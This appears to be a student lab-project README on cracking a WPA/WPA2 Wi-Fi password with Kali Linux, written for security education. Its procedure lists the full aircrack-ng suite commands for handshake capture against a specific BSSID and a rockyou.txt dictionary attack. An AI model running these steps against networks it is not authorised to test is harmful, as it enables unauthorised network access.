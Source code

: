 # Wireless Air Cracking Using Linux (WiFi Hacking)

## 📚 Project Overview
This semester project was completed as part of the *Introduction to Cyber Security Lab* in the 1st semester of **BS Cyber Security** at **Air University, Islamabad**. The project demonstrates ethical wireless network penetration testing using Kali Linux, showcasing hands-on experience with Wi-Fi cracking techniques in a controlled lab environment.

> ⚠️ **Disclaimer**: This project was conducted solely for educational purposes on our own wireless network with ethical and legal boundaries. Unauthorized access to networks is illegal and strictly prohibited.

---

## 🔧 Tools Used
- **Operating System**: Kali Linux
- **Networking Tools**:
  - `airmon-ng`
  - `airodump-ng`
  - `aircrack-ng`
  - `iwconfig`
  - `Wireshark`
- **Wordlist**: `rockyou.txt`

---

## 🧪 Procedure Summary

1. **Check Network Adapter**  
   `iwconfig`

2. **Kill Conflicting Processes**  
   `sudo airmon-ng check kill`

3. **Enable Monitor Mode**  
   `sudo airmon-ng start wlan0`

4. **Scan for Available Networks**  
   `sudo airodump-ng wlan0`

5. **Target Specific Network**  
   `sudo airodump-ng -w ammara -c 6 --bssid 4A:59:B1:F1:CC:B0 wlan0`

6. **Capture Handshake Packets**

7. **Analyze Capture with Wireshark**  
   `wireshark ammara-01.cap`

8. **Crack Wi-Fi Password using Wordlist**  
   `sudo aircrack-ng ammara-01.cap -w /usr/share/wordlists/rockyou.txt`

9. **Disable Monitor Mode**  
   `sudo airmon-ng stop wlan0`

---

## 🔑 Outcome
- Successfully captured the WPA/WPA2 4-way handshake.
- Cracked the Wi-Fi password using a dictionary attack.
- Demonstrated the importance of using **strong, complex passwords** for Wi-Fi networks.

---

## 👥 Team Members & Contributions

| Name            | Roll No. | Contribution                          |
|-----------------|----------|---------------------------------------|
| Breeha Bukhari  | 232120   | Research and Project Planning (33%)   |
| Ammara Khalil   | 232924   | Project Execution and Report Writing (33%) |
| Wajeeha Dauood  | 232108   | Linux Tools Research and Presentation (33%) |

---

## 📎 References
- YouTube tutorials on ethical Wi-Fi testing
- GitHub repositories for Linux networking tools

---

## ✅ Conclusion
To improve Wi-Fi security:
- Use **WPA3** or the latest encryption methods.
- Avoid default or weak passwords.
- Regularly update router firmware.

---

